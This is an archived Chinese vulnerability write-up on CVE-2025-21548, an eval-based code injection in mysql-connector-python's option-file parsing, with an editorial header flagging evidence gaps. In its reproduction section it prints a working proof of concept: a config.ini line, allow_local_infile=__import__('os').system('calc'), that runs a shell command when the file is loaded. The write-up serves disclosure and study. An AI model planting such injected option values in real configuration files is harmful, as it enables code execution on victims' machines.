







# CVE-2025-21548(mysql客户端RCE)

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=9.1.0 claimed；加载攻击者可控option文件；lab8.0.33；本地客户端权限
- 证据范围：明确纠正不是MySQL Server；eval到literal_eval补丁与配置触发样例

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 标题客户端RCE应明确恶意配置文件进入/用户交互前提，不是远程MySQL服务器自动利用
- CVE与commit映射为作者diff推断，需官方确认
- 官方宽泛影响描述与本地实验不等同；阴谋式烟雾弹猜测应标个人观点/删去
- 固定版本之外缺安全发布版本；MITRE URL name参数缺CVE-前缀

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 珂字辈  珂技知识分享   2025-03-31 18:00  
  
一、	前言  
  
  
中文搜这个漏洞，得出来得结果居然是Oracle MySQL Server 漏洞，但去官网上看通告，发现是mysql的python客户端漏洞  
  
https://www.oracle.com/security-alerts/cpujan2025.html  
  
  
  
不像java大家只用官方的mysql-connector-java一样，python中更常用的可能还是PyMySQL。  
  
https://github.com/PyMySQL/  
  
这次出漏洞的客户端是官方的mysql-connector-python，<=9.1.0。   
  
https://github.com/mysql/mysql-connector-python  
  
虽然CVE上的描述比较多也比较宽泛，但官网上没有任何只言片语。  
  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2025-21548  
  
  
此漏洞易于被利用，高权限攻击者可以通过多种协议通过网络访问 MySQL Connectors。成功的攻击需要除攻击者以外的其他人的交互。此漏洞的成功攻击可能导致未经授权地创建、删除或修改对关键数据或所有 MySQL Connectors 可访问数据的访问权限，以及未经授权读取部分 MySQL Connectors 可访问数据的权限，并可能导致 MySQL Connectors 挂起或频繁崩溃  
  
  
二、	diff  
  
  
这种情况只能去diff了，很容易发现。  
  
  
  
  
  
据此找到commit  
  
https://github.com/mysql/mysql-connector-python/commit/dd9ded0dec35dbba773487c548c336cf742830ab  
  
确定sink点在optionfiles.py，解析配置文件时直接使用了eval，修复方案为literal_eval。  
  
  
  
  
三、	复现  
  
  
手动测试一下。  
```shell
python3 -m pip install --upgrade mysql-connector-python==8.0.33
```  
```python
import mysql.connector

opt_file = 'config.ini'
connection = mysql.connector.connect(
    read_default_file=opt_file,
    option_groups=["incorrect_config"]
)
```  
```
[incorrect_config]

user=root
password=mypass
database=cpydata
port=int(3306)
allow_local_infile=__import__('os').system('calc')
```  
  
  
  
  
非常简单易懂的漏洞。  
不过看起来跟漏洞描述对不上啊，这是怎么回事？搜mysql-connector-python的历史CVE，大部分都是这种类似的非常宽泛的描述。猜测是一种保护限制的烟雾弹？  
  
  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
